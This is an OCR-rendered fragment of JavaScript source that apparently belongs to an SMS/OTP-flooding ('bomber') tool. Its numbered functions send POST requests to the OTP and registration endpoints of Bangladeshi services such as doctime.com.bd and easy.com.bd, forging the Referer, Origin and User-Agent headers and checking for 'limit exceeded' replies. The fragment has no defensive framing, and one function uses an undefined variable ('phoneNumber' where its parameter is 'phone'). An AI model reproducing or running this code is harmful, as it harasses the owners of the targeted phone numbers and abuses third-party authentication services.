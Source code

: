         });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 18 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 18 Error:', error);
        throw error;
    }
}
async function api_19(phone) {
    const url = "https://us-central1-doctime-465c7.cloudfunctions.net/sendAuthenticationOTPToPhoneNumber";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
           headers: {
           'Content-Type': 'application/json',
           'Referer': 'https://doctime.com.bd/',
           'Origin': 'https://doctime.com.bd',
           'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0'
           },
           body: JSON.stringify({
           data: {
           flag: 'https://doctime-core-ap-southeast-1.s3.ap-southeast-1.amazonaws.com/images/country-flags/flag-800.png',
           code: '88',
           contact_no: phoneNumber,
           country_calling_code: '88',
           headers: {
           PlatForm: 'Web'
           }
           }
           })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 19 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 19 Error:', error);
        throw error;
    }
}
async function api_20(phone) {
    const url = "https://core.easy.com.bd/api/v1/registration";
    